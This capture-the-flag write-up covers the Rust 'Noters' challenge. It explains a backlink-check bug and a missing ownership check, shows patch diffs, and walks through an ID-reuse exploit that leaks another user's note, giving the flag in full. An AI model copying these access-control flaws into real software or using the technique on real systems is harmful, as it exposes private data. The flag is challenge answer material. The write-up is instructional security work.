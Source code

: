 # Noters

## Challenge Overview

- Name: Noters
- Category: Pwn
- Difficulty: Easy
- Flag: `NNS{y0u_d1dnT_n33d_uns4f3_t0_uns4f3}` 
- Description:

    A blazingly-fast, memory-safe, CRUD-compatible note-taking app written in nearly 1000 lines of safe Rust. No unsafe and no memory errors, yet still a pwn challenge.
    Everything looks safe. Everything compiles. Even clippy is happy. But something still _feels_ off, and it's not Rust's fault.

## Vulnerability

A logic flaw in the `delete_note()` function in `app.rs`(line 201) introduces a high-level use-after-free vulnerability. The intention is to prevent deleting a note if it's referenced by another, but the code mistakenly checks the note being deleted for backlinks rather than other notes that may reference it. The diff shows a patch of `delete_note()`.

```diff
    // Delete note by ID
    pub fn delete_note(&self, id: u16) -> Result<()> {
        // Check if any other note references this note (expensive)
        // and do not stop at the first backlink, find all of them
        let mut backlinks: Vec<u16> = Vec::new();
        for partial_note in self.list_notes()? {
            // Do not prevent deletion if note refers to itself
            if partial_note.id == id {
                // While we're here: Check if user is the owner of the note
                // Make sure they can't delete a note they don't own
                if partial_note.owner != self.user {
                    return Err(NoteValidationError::PermissionDenied(partial_note.id).into());
                }
                continue;
            }

            // Read content and find all references
            // Save ID to Vec if it contains a backlink
            // to the note we're trying to delete
-           let content = self.repo.read(id)?.content;
+           let content = self.repo.read(partial_note.id)?.content;
            let references = NoteService::get_references(&content);
            if references.contains(&id) {
                backlinks.push(partial_note.id);
            }
        }

        let num_backlinks = backlinks.len();
        trace!("Found {} backlinks to note with ID: {}", num_backlinks, id);
        match num_backlinks {
            0 => self.repo.delete(id),
            _ => Err(NoteError::Validation(
                NoteValidationError::NoteIsReferenced(backlinks),
            )),
        }
    }
```

This tiny mistake (`id` vs `partial_note.id`) means that backlink checks are ineffective, and you can delete a note even if another note references it. A dangling pointer.

Additionally, `read_note()` in `app.rs` (line 112) fails to verify ownership for referenced notes. So if a user references a note they don't own, the system still resolves it.

```diff
    /// Reads a full note and expands any references in the content (e.g. `[[1]]` becomes the full text of note #1).
    ///
    /// # Errors
    ///
    /// Returns:
    /// - `NoteValidationError::PermissionDenied` if the user does not own the note or a referenced note.
    /// - `NoteValidationError::ReferenceNotFound` if a referenced note does not exist.
    /// - Other repository errors if reading from the backend fails.
    pub fn read_note(&self, id: u16) -> Result<Note> {
        let mut note = self.repo.read(id)?;

        // Only allow owner read access
        if self.user != note.owner {
            return Err(NoteValidationError::PermissionDenied(id).into());
        }

        // Mapping references to note contents: [[1]] -> "Some content"
        let placeholders = Self::get_references(&note.content)
            .into_iter()
            .map(|rid| match self.repo.read(rid) {
                Ok(ref_note) => {
+                   // Make sure user has permission to read referenced note
+                   if ref_note.owner != self.user {
+                       return Err(NoteError::Validation(
+                           NoteValidationError::PermissionDenied(ref_note.id),
+                       ));
+                   }
+
                    let placeholder = format!("[[{rid}]]");
                    let expansion = format!(
                        ">>> #{} {}\n>\n> {}",
                        ref_note.id,
                        ref_note.name,
                        ref_note.content.replace('\n', "\n> ")
                    );
                    Ok((placeholder, expansion))
                }
                Err(_) => Err(NoteValidationError::ReferenceNotFound(rid).into()),
            })
            .collect::<Result<Vec<_>>>()?;

        // Expanding references: [[1]] -> Note #1's content
        let expanded = placeholders
            .into_iter()
            .fold(note.content, |txt, (ph, exp)| txt.replace(&ph, &exp));

        note.content = expanded;
        Ok(note)
    }
```

## Exploit

To exploit this:

### 1. We create two notes

One regular note (`#0`), and one referencing the first (`#1`), like ``[[0]]`:

#### Note #0

```text
Name:
> first note

Content:
> hello!
> .
```

#### Note #1

```text
Name:
> references #0

Content:
> Reference to first note:
> [[0]]
> .
```

### 2. List notes to confirm

```pgsql
 id | owner     | name 
----+-----------+--------------
 0  | fslaktern | first note
 1  | fslaktern | references #0 
```

### 3. Delete note #0

Despite the note #1 referencing note #0, deletion succeeds due to the broken backlink check.

```pgsql
 id | owner     | name 
----+-----------+--------------
 1  | fslaktern | references #0 
```

### 4. Create a new note containing the flag

This gets assigned **ID #0**, which is still referenced by note #1.

```pgsql
 id | owner                | name 
----+----------------------+--------------
 0  | Norske Nøkkelsnikere | flag 
 1  | fslaktern            | references #0 
```

### 5. Read note #1

The reference `[[0]]` resolves - revealing the contents of the new note:

```
-------------------------------
#1: references #0

Reference to first note:
>>> #0 flag
>
> NNS{y0u_d1dnT_n33d_uns4f3_t0_uns4f3}
-------------------------------
```

